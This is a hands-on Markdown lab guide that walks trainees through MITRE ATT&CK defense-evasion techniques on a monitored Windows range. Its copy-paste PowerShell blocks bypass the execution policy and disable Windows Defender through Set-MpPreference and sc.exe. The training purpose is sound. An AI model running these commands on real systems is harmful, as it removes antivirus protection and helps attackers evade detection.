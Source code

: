 ```yaml
---
title: ATT&CK - Defense Evasion Phase
description: Introduce post-compromise attack behaviors and EDR defenses
author: Chris Gerritz, Datto
created: 04/07/2025
achievements:
duration: 10
range:
- Windows
applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
external:
- attack.mitre.org
- rightofboom.infocyte.com
- 
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Lab 4 is a light touch on some Defense Evasion techniques (such as disabling antivirus or defensive products). These techniques are often layered on the other techniques and phases to help hide that activity. In any case, when it comes to EDR and continuous monitoring, oftentimes we can use the presence of these evasion techniques as detection or confirmation that the user performing suspicious behaviors is indeed a threat.

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Defense Evasion phase activities an attacker might utilize
2. Demonstrate Defense Evasion skills to disable antivirus and allow us to bring down additional malware utilities without being detected
3. Understand how we can use Defense Evasion activities to identify or confirm malicious intent

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Run the following:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
	```

## Instructions
For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 

### 1. Disabling Security Tools - Powershell
> *While most defensive evasion will be used alongside other techniques to hide them, an explicit defense evasion phase usually will happen where the attacker will disable security tools and logging.*
>
> *The method we'll demonstrate today is to disable Windows Defender but often an attacker will use a script to detect and disable whatever AV is on the system. This action requires administrator privileges. This command may not work directly if tamper protection is enabled but there are methods an attacker can use to bypass tamper protection as well.*

Use Powershell to perform a **Disable Security Tools** technique
- [ATT&CK T1089 - Defense Evasion - Disabling Security Tools](https://attack.mitre.org/techniques/T1089)
- Copy and paste this command into the terminal:
	```PowerShell
	Write-Host -ForegroundColor Cyan "Initiating Defense Evasion - T1089 - Disabling Security Tools"
	Write-Host "Disabling Defender..."
	$cmd = "Set-MpPreference -DisableRealtimeMonitoring `$true; Start-Sleep -m $n"
	powershell.exe -nop -command $cmd
	```

### 2. Disabling Security Tools - Service Control Manager
> *If the above method does not work, attackers can also disable the antivirus service from the service control manager using sc.exe*

Use the Service Control Manager (sc.exe) to perform a **Disable Security Tools** technique
- [ATT&CK T1089 - Defense Evasion - Disabling Security Tools](https://attack.mitre.org/techniques/T1089)
- Copy and paste this command into the terminal:
	```PowerShell
	Write-Host -ForegroundColor Cyan "Initiating Defense Evasion - T1089 - Disabling Security Tools"
	Write-Host "Disabling Defender..."
	& sc.exe config WinDefend start= disabled
	* sc.exe stop WinDefend
	```

	